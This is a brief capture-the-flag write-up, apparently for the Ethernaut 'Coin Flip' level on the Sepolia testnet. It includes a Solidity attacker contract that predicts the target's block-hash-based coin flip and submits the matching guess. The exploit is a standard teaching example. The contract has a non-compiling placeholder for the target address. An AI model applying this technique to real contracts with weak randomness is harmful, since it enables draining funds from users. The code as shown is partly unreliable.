

# Coin Flip #

Challange:

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.


Solution:

The network block.number itself will change quite fast. We also can not be sure which block number our transaction will be included on.


For this we can automate the transaction process in Remix using the same network as what we use to deploy the challange (In this case I use Sepolia). 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address CONTRACT_TARGET = Challange Contract Address;

    constructor() {
        consecutiveWins = 0;
    }

    function calculateNumber() public view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

    function submitResult() public {
        bool guess = calculateNumber();
        (bool isSucess, ) = CONTRACT_TARGET.call(abi.encodeWithSignature("flip(bool)", guess));
        require(isSucess, "Call failed");
        consecutiveWins += 1;
    }
}
```

